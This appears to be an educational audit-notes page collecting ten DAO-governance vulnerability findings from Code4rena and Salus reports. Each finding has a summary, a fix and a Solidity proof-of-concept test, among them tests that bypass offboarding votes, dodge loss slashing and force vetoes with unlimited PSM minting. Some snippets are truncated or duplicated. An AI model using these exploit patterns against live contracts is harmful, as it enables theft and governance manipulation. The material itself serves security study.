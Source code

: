 # ETAAcademy-Adudit: 1. DAO

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>01. DAO</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>Governance</th>
          <td>DAO</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Evta](https://twitter.com/pwhattie), looking forward to your joining

## 1. [Medium] Re-triggering the canOffboard[term] flag to bypass the DAO vote of the lending term offboarding mechanism

### Offboarding lending term

- Summary: The vulnerability allows an attacker to repeatedly trigger offboarding a re-onboarding lending term, bypassing the DAO vote offboarding mechanism. Even after the term is offboarded and cleaned up, the attacker can trigger another offboarding vote before the poll ends, to re-trigger the `canOffboard[term]` flag. This enables the attacker to force offboarding of the re-onboarded term at any time, overriding the DAO vote.

- Impact & Recommendation: The attack not only manipulates offboarding but also triggers silent auctions for existing loans. If a loan fails to attract bids, causing a loss, stakers who voted for the term via the SurplusGuildMinter contract are slashed, impacting both borrowers and stakers significantly. Prevent the offboarding poll from reactivating the `canOffboard[term]` flag after the lending term cleanup, or end the poll if the term has been cleaned up.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-06-re-triggering-the-canoffboardterm-flag-to-bypass-the-dao-vote-of-the-lending-term-offboarding-mechanism) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

    function testPoCBreakingDaoVoteOffboarding() public {
        // Prepare for Attacker
        address Attacker = address(1);
        guild.mint(Attacker, 1);
        vm.prank(Attacker);
        guild.delegate(Attacker);
        // Prepare for Bob
        guild.mint(bob, _QUORUM);
        vm.startPrank(bob);
        guild.delegate(bob);
        uint256 POLL_DURATION_BLOCKS = offboarder.POLL_DURATION_BLOCKS();
        uint256 snapshotBlock = block.number;
        uint256 OFFBOARDING_POLL_END_BLOCK = snapshotBlock + POLL_DURATION_BLOCKS;
        // Bob proposes an offboarding of the term
        assertEq(guild.isGauge(address(term)), true);
        offboarder.proposeOffboard(address(term));
        // Next 1 day
        vm.roll(block.number + 6646); // 1 day
        vm.warp(block.timestamp + 6646 * 13);
        assertLe(block.number, OFFBOARDING_POLL_END_BLOCK);
        vm.expectRevert("LendingTermOffboarding: quorum not met");
        offboarder.cleanup(address(term));
        // Bob votes for offboarding the term and executes the offboarding (he has a sufficient voting weight)
        assertEq(guild.isGauge(address(term)), true);
        assertEq(offboarder.canOffboard(address(term)), false);
        offboarder.supportOffboard(snapshotBlock, address(term));
        offboarder.offboard(address(term));
        assertEq(guild.isGauge(address(term)), false);
        assertEq(offboarder.canOffboard(address(term)), true);
        // Cannot clean up because loans are active
        vm.expectRevert("LendingTermOffboarding: not all loans closed");
        offboarder.cleanup(address(term));
        // Next 1 day
        vm.roll(block.number + 6646); // 1 day
        vm.warp(block.timestamp + 6646 * 13);
        assertLe(block.number, OFFBOARDING_POLL_END_BLOCK);
        // Get enough CREDIT to pack back interests
        vm.stopPrank();
        uint256 debt = term.getLoanDebt(aliceLoanId);
        credit.mint(alice, debt - aliceLoanSize);
        // Alice closes loan
        vm.startPrank(alice);
        credit.approve(address(term), debt);
        term.repay(aliceLoanId);
        vm.stopPrank();
        // Clean up the term
        assertEq(psm.redemptionsPaused(), true);
        assertEq(offboarder.nOffboardingsInProgress(), 1);
        offboarder.cleanup(address(term));
        assertEq(psm.redemptionsPaused(), false);
        assertEq(offboarder.nOffboardingsInProgress(), 0);
        assertEq(offboarder.canOffboard(address(term)), false); // The canOffboard[term] flag has been reset
        assertEq(core.hasRole(CoreRoles.RATE_LIMITED_CREDIT_MINTER, address(term)), false);
        assertEq(core.hasRole(CoreRoles.GAUGE_PNL_NOTIFIER, address(term)), false);
        // Attacker votes for offboarding the term to re-trigger the canOffboard[term] flag again
        vm.startPrank(Attacker);
        assertEq(offboarder.canOffboard(address(term)), false);
        offboarder.supportOffboard(snapshotBlock, address(term));
        assertEq(offboarder.canOffboard(address(term)), true); // Attacker has re-triggered the canOffboard[term] flag
        vm.stopPrank();
        // Next 10 days
        // Offboarding poll expired
        vm.roll(block.number + 66460); // 10 days
        vm.warp(block.timestamp + 66460 * 13);
        assertGt(block.number, OFFBOARDING_POLL_END_BLOCK);
        // The term is re-onboarded
        assertEq(guild.isGauge(address(term)), false);
        guild.addGauge(1, address(term));
        assertEq(guild.isGauge(address(term)), true);
        // Next 30 days
        vm.roll(block.number + 199380); // 30 days
        vm.warp(block.timestamp + 199380 * 13);
        assertEq(guild.isGauge(address(term)), true);
        assertEq(psm.redemptionsPaused(), false);
        assertEq(offboarder.nOffboardingsInProgress(), 0);
        // Attacker offboards the term by overriding the DAO vote offboarding mechanism
        vm.startPrank(Attacker);
        offboarder.offboard(address(term));
        assertEq(guild.isGauge(address(term)), false);
        assertEq(psm.redemptionsPaused(), true);
        assertEq(offboarder.nOffboardingsInProgress(), 1);
    }

  ```

  </details>

## 2. [Medium] The gauge status wasn’t checked before reducing the user’s gauge weight.

### Reduce weight to transfer loss

- Summary: In the event of any loss triggered by **`ProfitManager#notifyPnL()`**, all staked guild tokens on the lending term will be entirely slashed through **`GuildToken#notifyGaugeLoss()`**, with termSurplusBuffer[gauge] depleting and donating to surplusBuffer. Loss will first decrease from surplusBuffer, and if surplusBuffer is insufficient, the remaining loss will reduce the creditMultiplier for each credit token. A term can be offboarded if deemed unsafe, pausing the redemption function of the corresponding SimplePSM. Once offboarded, potential losses are distributed to all credit token holders, as exiting in advance is not possible. However, guild holders can reduce their weight on the offboarded term, transferring potential losses to other holders.

- Impact & Recommendation: Preventing gauge weight deprecation upon offboarding a lending term is advisable, particularly with surplus GUILD minter, as it ensures protection for passive lenders by retaining surplus buffer capital that may otherwise escape.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-17-the-gauge-status-wasnt-checked-before-reducing-the-users-gauge-weight) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity
    function testOffboardTermAndDecrementGauge() public {
        //@audit-info term2 is deployed
        LendingTerm term2 = LendingTerm(Clones.clone(address(new LendingTerm())));
        term2.initialize(
            address(core),
            LendingTerm.LendingTermReferences({
                profitManager: address(profitManager),
                guildToken: address(guild),
                auctionHouse: address(auctionHouse),
                creditMinter: address(rlcm),
                creditToken: address(credit)
            }),
            LendingTerm.LendingTermParams({
                collateralToken: address(collateral),
                maxDebtPerCollateralToken: _CREDIT_PER_COLLATERAL_TOKEN,
                interestRate: _INTEREST_RATE,
                maxDelayBetweenPartialRepay: 0,
                minPartialRepayPercent: 0,
                openingFee: 0,
                hardCap: _HARDCAP
            })
        );
        vm.startPrank(governor);
        core.grantRole(CoreRoles.RATE_LIMITED_CREDIT_MINTER, address(term2));
        core.grantRole(CoreRoles.GAUGE_PNL_NOTIFIER, address(term2));
        vm.stopPrank();
        //@audit-info active term2, which has the same gauge type with term1
        guild.addGauge(1, address(term2));
        //@audit-info mint 2e18 guild token to carol
        guild.mint(carol, 2e18);
        vm.startPrank(carol);
        guild.incrementGauge(address(term), 1e18);
        guild.incrementGauge(address(term2), 1e18);
        vm.stopPrank();
        // prepare (1)
        guild.mint(bob, _QUORUM);
        vm.startPrank(bob);
        guild.delegate(bob);
        uint256 snapshotBlock = block.number;
        //@audit-info bob propose to offboard term
        offboarder.proposeOffboard(address(term));
        vm.roll(block.number + 1);
        vm.warp(block.timestamp + 13);
        //@audit-info term is able to be offboarded with enough votes.
        offboarder.supportOffboard(snapshotBlock, address(term));
        assertEq(offboarder.polls(snapshotBlock, address(term)), _QUORUM + 1);
        assertEq(offboarder.canOffboard(address(term)), true);
        assertEq(guild.isGauge(address(term)), true);
        assertEq(psm.redemptionsPaused(), false);
        assertEq(offboarder.nOffboardingsInProgress(), 0);
        offboarder.offboard(address(term));
        //@audit-info term is offboarded
        assertEq(guild.isGauge(address(term)), false);
        //@audit-info the redemption function is paused, no one can redeem their credit token
        assertEq(psm.redemptionsPaused(), true);
        assertEq(offboarder.nOffboardingsInProgress(), 1);
        vm.stopPrank();
        assertEq(guild.getUserGaugeWeight(carol, address(term)), 1e18);
        vm.prank(carol);
        //@audit-info however, carol can decrement their gauge weight on term
        guild.decrementGauge(address(term), 1e18);
        assertEq(guild.getUserGaugeWeight(carol, address(term)), 0);
    }

  ```

  </details>

## 3. [Medium] RateLimitedMinter isn’t used by SimplePSM resulting in Governance attacks

### Use rate limiter to mint or burn token

- Summary: ProfitManager and SimplePSM contracts don't use rate limiter so that the `RateLimitedMinter` buffer is never replenished. Attacker mints gUSDC tokens in the PSM contract without rate limiter, then using them to take malicious voting action in GuildVetoGovernor and cancel actions in the queue quickly without any consequences, because `ProfitManager.creditMultiplier` doesn’t decline.

- Impact & Recommendation: Use rate limiter across all contracts in the protocol when minting or burning Credit and Guild tokens.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-21-ratelimitedminter-isnt-used-by-simplepsm-resulting-in-governance-attacks) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity
    // SPDX-License-Identifier: GPL-3.0-or-later
    pragma solidity 0.8.13;
    import {Test} from "@forge-std/Test.sol";
    import {Core} from "@src/core/Core.sol";
    import {CoreRoles} from "@src/core/CoreRoles.sol";
    import {MockERC20} from "@test/mock/MockERC20.sol";
    import {SimplePSM} from "@src/loan/SimplePSM.sol";
    import {GuildToken} from "@src/tokens/GuildToken.sol";
    import {CreditToken} from "@src/tokens/CreditToken.sol";
    import {ProfitManager} from "@src/governance/ProfitManager.sol";
    import {ProfitManager} from "@src/governance/ProfitManager.sol";
    import {MockLendingTerm} from "@test/mock/MockLendingTerm.sol";
    import {IGovernor} from "@openzeppelin/contracts/governance/IGovernor.sol";
    import {GuildVetoGovernor} from "@src/governance/GuildVetoGovernor.sol";
    import {GuildTimelockController} from "@src/governance/GuildTimelockController.sol";
    import "@forge-std/console.sol";
    contract Poc4 is Test {
        Core private core;
        ProfitManager private profitManager;
        CreditToken credit;
        GuildToken guild;
        MockERC20 private pegToken;
        SimplePSM private psm;
        uint256 private constant _TIMELOCK_MIN_DELAY = 12345;
        GuildTimelockController private timelock;
        GuildVetoGovernor private vetoGovernor;
        uint256 __lastCallValue = 0;
        // From deployment script!

        uint256 private constant _VETO_QUORUM = 5_000_000e18;
        function setUp() public {
            vm.warp(1679067867);
            vm.roll(16848497);
            core = new Core();
            profitManager = new ProfitManager(address(core));
            credit = new CreditToken(address(core), "gUSDC", "gUSDC");
            guild = new GuildToken(address(core), address(profitManager));
            pegToken = new MockERC20(); // USDC
            pegToken.setDecimals(6);
            psm = new SimplePSM(
                address(core),
                address(profitManager),
                address(credit),
                address(pegToken)
            );
            timelock = new GuildTimelockController(
                address(core),
                _TIMELOCK_MIN_DELAY
            );
            // VetoGovernor for gUSDC
            vetoGovernor = new GuildVetoGovernor(
                address(core),
                address(timelock),
                address(credit),
                _VETO_QUORUM // 5Mil gUSDC
            );
            core.grantRole(CoreRoles.CREDIT_MINTER, address(this));
            core.grantRole(CoreRoles.CREDIT_MINTER, address(psm));
            core.grantRole(CoreRoles.CREDIT_GOVERNANCE_PARAMETERS, address(this));
            core.createRole(CoreRoles.TIMELOCK_EXECUTOR, CoreRoles.GOVERNOR);
            core.grantRole(CoreRoles.TIMELOCK_EXECUTOR, address(0));
            core.createRole(CoreRoles.TIMELOCK_CANCELLER, CoreRoles.GOVERNOR);
            core.grantRole(CoreRoles.TIMELOCK_CANCELLER, address(vetoGovernor));
            core.createRole(CoreRoles.TIMELOCK_PROPOSER, CoreRoles.GOVERNOR);
            core.grantRole(CoreRoles.TIMELOCK_PROPOSER, address(this));
            core.renounceRole(CoreRoles.GOVERNOR, address(this));
            credit.setMaxDelegates(1);
        }
        function __dummyCall(uint256 val) external {
            __lastCallValue = val;
        }
        function _queueDummyTimelockAction(
            uint256 number
        ) internal returns (bytes32) {
            address[] memory targets = new address[](1);
            targets[0] = address(this);
            uint256[] memory values = new uint256[](1);
            bytes[] memory payloads = new bytes[](1);
            payloads[0] = abi.encodeWithSelector(
                Poc4.__dummyCall.selector,
                number
            );
            bytes32 predecessor = bytes32(0);
            bytes32 salt = keccak256(bytes("dummy call"));
            timelock.scheduleBatch(
                targets,
                values,
                payloads,
                predecessor,
                salt,
                _TIMELOCK_MIN_DELAY
            );
            bytes32 timelockId = timelock.hashOperationBatch(
                targets,
                values,
                payloads,
                0,
                salt
            );
            return timelockId;
        }
        function test_poc() public {
            address Alice = address(100);
            // Schedule an action in the timelock, Alice will veto it.
            bytes32 timelockId = _queueDummyTimelockAction(12345);
            // Afluent Alice has 6Mil of USDC and mints gUSDC in PSM
            // PSM isn't rate-limited (there is no cap)!
            pegToken.mint(Alice, 6_000_000e6);
            vm.startPrank(Alice);
            pegToken.approve(address(psm), 6_000_000e6);
            psm.mint(Alice, 6_000_000e6);

            // Alice has enough voting power!
            require(credit.balanceOf(Alice) > vetoGovernor.quorum(0));
            credit.delegate(Alice);
            // Alice creates a Veto proposal
            uint256 proposalId = vetoGovernor.createVeto(timelockId);
            vm.roll(block.number + 1);
            vm.warp(block.timestamp + 10);
            // Alice cast a vote against
            vetoGovernor.castVote(proposalId, uint8(GuildVetoGovernor.VoteType.Against));
            vm.roll(block.number + 1);
            vm.warp(block.timestamp + 10);
            (
                uint256 againstVotes,
                uint256 forVotes,
                uint256 abstainVotes
            ) = vetoGovernor.proposalVotes(
                proposalId
            );
            // There is a Quorum, Alice can execute Veto proposal
            require(againstVotes > vetoGovernor.quorum(0));
            vetoGovernor.executeVeto(timelockId);
            vm.stopPrank();
        }
    }

  ```

  </details>

## 4. [High] If a gauge that a user has voted for gets removed, their voting power allocated for that gauge will be lost

### Vote requirement for gauge

- Summary: The GaugeController, based on Curve DAO's Vyper implementation, allows users to vote for incentive allocation using the vote_for_gauge_weights() function. However, governance can remove gauges, preventing further voting but leaving existing users' voting power intact. Specifically, a new require statement has been added to check if the gauge type is greater than 0, but this fix doesn't address the issue effectively because the gauge type for a nonexistent gauge is always 0.

- Impact & Recommendation: Remove the requirement checking for nonzero gauge types at the specified address to allow users to reclaim their votes from removed gauges.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-neobase#h-01-if-a-gauge-that-a-user-has-voted-for-gets-removed-their-voting-power-allocated-for-that-gauge-will-be-lost) & [Report](https://code4rena.com/reports/2024-03-neobase)

  <details><summary>POC</summary>

  ```solidity
      function testLostVotingPower() public {
        // prepare
        uint256 v = 10 ether;
        vm.deal(gov, v);
        vm.startPrank(gov);
        ve.createLock{value: v}(v);
        // add gauges
        gc.add_gauge(gauge1, 0);
        gc.add_type("", 0);
        gc.add_gauge(gauge2, 1);
        // all-in on gauge1
        gc.vote_for_gauge_weights(gauge1, 10000);
        // governance removes gauge1
        gc.remove_gauge_weight(gauge1);
        gc.remove_gauge(gauge1);
        // cannot vote for gauge2
        vm.expectRevert("Used too much power");
        gc.vote_for_gauge_weights(gauge2, 10000);
        // cannot remove vote for gauge1
        vm.expectRevert("Gauge not added"); // @audit remove after mitigation
        gc.vote_for_gauge_weights(gauge1, 0);
        // cannot vote for gauge2 (to demonstrate again that voting power is not removed)
        vm.expectRevert("Used too much power");  // @audit remove after mitigation
        gc.vote_for_gauge_weights(gauge2, 10000);
    }

    function testLostVotingPower() public {
        // prepare
        uint256 v = 10 ether;
        vm.deal(gov, v);
        vm.startPrank(gov);
        ve.createLock{value: v}(v);
        // add gauges
        gc.add_gauge(gauge1, 0);
        gc.change_gauge_weight(gauge1, 100);
        gc.add_type("", 100);
        gc.add_gauge(gauge2, 1);
        gc.change_gauge_weight(gauge2, 100);
        // all-in on gauge1
        gc.vote_for_gauge_weights(gauge1, 10000);
        // governance removes gauge1
        gc.remove_gauge_weight(gauge1);
        gc.remove_gauge(gauge1);
        // cannot vote for gauge2
        vm.expectRevert("Used too much power");
        gc.vote_for_gauge_weights(gauge2, 10000);
        // cannot remove vote for gauge1
        vm.expectRevert("Gauge not added"); // @audit remove after mitigation
        gc.vote_for_gauge_weights(gauge1, 0);
        // cannot vote for gauge2 (to demonstrate again that voting power is not removed)
        vm.expectRevert("Used too much power");  // @audit remove after mitigation
        gc.vote_for_gauge_weights(gauge2, 10000);
    }


  ```

  </details>

## 5. [Medium] Issue from previous audit still present: Gauge can have bigger weight than was intended by protocol

### Change gauge weight

- Summary: Users can exploit the "change_gauge_weight" function by monitoring the mempool for calls and front-running them to remove their voting power before the change occurs. This allows them to manipulate the gauge's weight, increasing it beyond the intended value set by governance.

- Impact & Recommendation: Remove `change_gauge_weight` function.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-neobase#m-03-issue-from-previous-audit-still-present-gauge-can-have-bigger-weight-than-was-intended-by-protocol) & [Report](https://code4rena.com/reports/2024-03-neobase)

  <details><summary>POC</summary>

  ```solidity
      /// @notice Allows governance to overwrite gauge weights
    /// @param _gauge Gauge address
    /// @param _weight New weight
    function change_gauge_weight(address _gauge, uint256 _weight) public onlyGovernance {
        _change_gauge_weight(_gauge, _weight);
    }

  ```

  </details>

## 6.[Medium] Missing disapproval check in LockManager.sol::approveUSDPrice allows simultaneous approval and disapproval of a price proposal

### Disapproval check

- Summary: Due to a missing disapproval check, a price feed can both disapprove and then approve a newly proposed price, which contradicts the intended functionality of voting either for approval or disapproval.

- Impact & Recommendation: To mitigate this, add a check to ensure a price feed has not already disapproved a proposal before allowing approval, and revert with a custom error if this condition is met.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-05-munchables#m-01-missing-disapproval-check-in-lockmanagersolapproveusdprice-allows-simultaneous-approval-and-disapproval-of-a-price-proposal) & [Report](https://code4rena.com/reports/2024-05-munchables)

<details><summary>POC</summary>

```solidity
    function approveUSDPrice(
        uint256 _price
    )
        external
        onlyOneOfRoles(
            [
                Role.PriceFeed_1,
                Role.PriceFeed_2,
                Role.PriceFeed_3,
                Role.PriceFeed_4,
                Role.PriceFeed_5
            ]
        )
    {
        if (usdUpdateProposal.proposer == address(0)) revert NoProposalError();
        if (usdUpdateProposal.proposer == msg.sender)
            revert ProposerCannotApproveError();
        if (usdUpdateProposal.approvals[msg.sender] == _usdProposalId)
            revert ProposalAlreadyApprovedError();
+       if (usdUpdateProposal.disapprovals[msg.sender] == _usdProposalId)
+           revert ProposalAlreadyDisapprovedError();
        if (usdUpdateProposal.proposedPrice != _price)
            revert ProposalPriceNotMatchedError();
        usdUpdateProposal.approvals[msg.sender] = _usdProposalId;
        usdUpdateProposal.approvalsCount++;
        if (usdUpdateProposal.approvalsCount >= APPROVE_THRESHOLD) {
            _execUSDPriceUpdate();
        }
        emit ApprovedUSDPrice(msg.sender);
    }

```

<details>

## 7.[High] A successfully disputed redemption proposal has still increased the redemption fee base rate; exploit to depeg dUSD

### Rate doesn't decrease when redemptions disputed

- Summary: The issue causing dUSD to depeg can be exploited due to a flaw in the redemption fee mechanism, where the base rate increases with proposed redemptions but doesn't decrease when disputed. Attackers can manipulate this by using different accounts to propose and dispute redemptions, maintaining high fees and disincentivizing necessary redemptions to restore the peg. This exploit can lead to persistent depegging, enabling market manipulation where attackers buy cheap dUSD and later redeem it for profit.

- Impact & Recommendation: To mitigate this, the base rate should not be affected by disputed proposals, the fee structure should be re-evaluated, and sufficiently large redemption proposals should be required to prevent manipulation.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-dittoeth#h-01-a-successfully-disputed-redemption-proposal-has-still-increased-the-redemption-fee-base-rate-exploit-to-depeg-dusd) & [Report](https://code4rena.com/reports/2024-03-dittoeth)

<details><summary>POC</summary>

```solidity

    uint88 redemptionFee = calculateRedemptionFee(asset, p.totalColRedeemed, p.totalAmountProposed);

```

</details>

## 8.[High] Vote tally incorrect when there is no governance token

### Vote token and tally

- Summary: In BaseCommittee.sol the vote tally could be incorrect if no governance token exists. The `_getVoteRequirement` function determines the vote token type, and `_calculatePledgeValue` relies on this type to calculate the pledge value. If a proposal requires a governance token (voteTokenType == 2) and the DAO lacks one, the tally defaults to using a badge's pledge value, causing discrepancies.

- Impact & Recommendation: The recommendation was to base pledge value calculations solely on voteTokenType.
  <br> 🐬: [Source](https://audit.salusec.io/api/v1/salus/contract/certificate/full/Ink-Finance_incremental_audit_report_2024-05-09.pdf) & [Report](https://audit.salusec.io/api/v1/salus/contract/certificate/full/Ink-Finance_incremental_audit_report_2024-05-09.pdf)

<details><summary>POC</summary>

```solidity
  function _getVoteRequirement(VoteIdentity memory identity) internal view
      returns (
          uint256 voteTokenType,
          uint256 baseReqTokenType,
          uint256 baseReqTokenAmt
      )
  {
      bytes32 typeID;
      bytes memory intData;
      (typeID, intData) = IProposalHandler(getParentDAO())
      .getProposalMetadata(identity.proposalID, VOTE_TOKEN_TYPE);
      if (intData.length > 0) {
          voteTokenType = abi.decode(intData, (uint256));
      }
      ...
      (address govToken, address badgeAddress) = IDAO(getParentDAO())
      .getDAOTokenInfo();
      if (voteTokenType == 0) {
          if (govToken != address(0)) {
              // use economy token's pledge value
              voteTokenType = 2;
          } else {
              // use badge's pledge value
              voteTokenType = 1;
          }
      }
      if (voteTokenType == 1) {
          baseReqTokenType = 2;
      } else {
          baseReqTokenType = 1;
      }
  }

    function _calculatePledgeValue(
        VoteIdentity memory identity,
        address user,
        uint256 votes
    )
        internal
        view
        returns (bool requirePledgeEngine, uint256 requirePledgeValue)
    {
        (
            uint256 voteTokenType,
            uint256 baseReqTokenType,
            uint256 baseReqTokenAmt
        ) = _getVoteRequirement(identity);
        (address govToken, address badgeAddress) = IDAO(getParentDAO())
        .getDAOTokenInfo();
        if (govToken == address(0) || voteTokenType == 1) {
            // no govenance token, P(ledge)=1，B=badge in the wallets
            requirePledgeValue = IERC20(badgeAddress).balanceOf(user);
            requirePledgeEngine = false;
        } else {
            // there governance tokens, B(adge)=1，badge > 0
            requirePledgeValue = votes;
            requirePledgeEngine = true


```

</details>

## 9.[High] InkBadge token being transferable can lead to a repeat voting attack

### Maximum votes

- Summary: When no governance token is set, the balance of InkBadge tokens determines the maximum votes a user can cast. An attacker can exploit this by voting, transferring the InkBadge to another account, and voting again, thus manipulating the vote outcome.

- Impact & Recommendation: The recommendation is to disable transfers for the InkBadge token.
  <br> 🐬: [Source](https://audit.salusec.io/api/v1/salus/contract/certificate/full/Ink-Finance_incremental_audit_report_2023-12-25.pdf) & [Report](https://audit.salusec.io/api/v1/salus/contract/certificate/full/Ink-Finance_incremental_audit_report_2023-12-25.pdf)

<details><summary>POC</summary>

```solidity
function _vote(
    VoteIdentity memory identity,
    bool agree,
    uint256 count,
    bool requestPledge,
    string memory feedback,
    bytes memory data
) internal {
    // pledge
    (
        bool requirePledgeEngine,
        uint256 requirePledgeValue
    ) = _calculatePledgeValue(_msgSender(), count);
    if (requestPledge) {
        if (requirePledgeEngine) {
            // address stakingEngine = IDAO(getParentDAO()).getStakingEngine();
            IDAO(getParentDAO()).pledge(
                _msgSender(),
                identity.proposalID,
                requirePledgeValue
            );
        } else {
            (, address badgeAddress) = IDAO(getParentDAO())
                .getDAOTokenInfo();
            uint256 decimal = IERC20Metadata(badgeAddress).decimals();
            // require badge
            // require(
            // count * 10**decimal <= requirePledgeValue,
            // "badge is not enough"
            // );
            if (count * 10**decimal > requirePledgeValue) {
                revert INK_ERROR(1017);

```

</details>

## 10.[Medium] Less active nominees can be left without rewards after an year of inactivity

### Lose voting power

- Summary: The VoteWeighting contract requires nominee activity at least every 53 weeks to ensure proper functionality. Currently, if a nominee remains inactive for over a year, the nomineeRelativeWeight() function returns 0, causing users with long-term locked veOLAS tokens to lose their voting power and rewards. This problem arises because the contract’s one-year lookbehind period does not retain historical data beyond 53 weeks, leading to unfair distribution of voting power.

- Impact & Recommendation: It is recommended to extend the lookbehind period to cover the maximum lock period plus one additional year, similar to Curve’s approach.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-05-olas#m-02-less-active-nominees-can-be-left-without-rewards-after-an-year-of-inactivity) & [Report](https://code4rena.com/reports/2024-05-olas)

<details><summary>POC</summary>

```solidity

        for (uint256 i = 0; i < MAX_NUM_WEEKS; i++) {
            if (t > block.timestamp) {
                break;
            }
            t += WEEK;
            uint256 dBias = pt.slope * WEEK;
            if (pt.bias > dBias) {
                pt.bias -= dBias;
                uint256 dSlope = changesWeight[nomineeHash][t];
                pt.slope -= dSlope;
            } else {
                pt.bias = 0;
                pt.slope = 0;
            }

            pointsWeight[nomineeHash][t] = pt;
            if (t > block.timestamp) {
                timeWeight[nomineeHash] = t;
            }
        }

```

</details>
